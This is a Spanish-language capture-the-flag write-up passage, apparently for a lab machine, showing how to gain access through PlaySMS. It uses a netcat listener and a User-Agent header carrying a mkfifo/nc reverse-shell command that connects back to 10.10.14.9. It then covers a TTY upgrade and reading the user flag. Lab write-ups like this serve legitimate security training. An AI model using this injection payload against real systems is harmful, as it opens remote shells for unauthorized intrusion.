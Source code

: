 ## Vuln exploit & Gaining Access {-}

### Ganando acceso con PlaySMS {-}

1. Nos ponemos en escucha por el puerto 443

    ```bash
    nc -nlvp 443
    ```

1. Enviamos nuevamente el csv a la web y interceptamos la peticion con burpsuite
1. Cambiamos el User-agent 

    ```bash
    User-Agent: rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.9 443 >/tmp/f
    ```

Ya hemos ganado acceso al systema.

### Tratamiento de la TTY {-}

```bash
script /dev/null -c bash
^Z
stty raw -echo; fg
-> reset
-> xterm
export TERM=xterm
export SHELL=bash

stty -a

stty rows <rownb> columns <colnb>
```


Aqui ya miramos si podemos leer la flag

```bash
cd /home
find \-name user.txt 2>/dev/null
find \-name user.txt 2>/dev/null | xargs cat
```

Ya podemos ver la flag.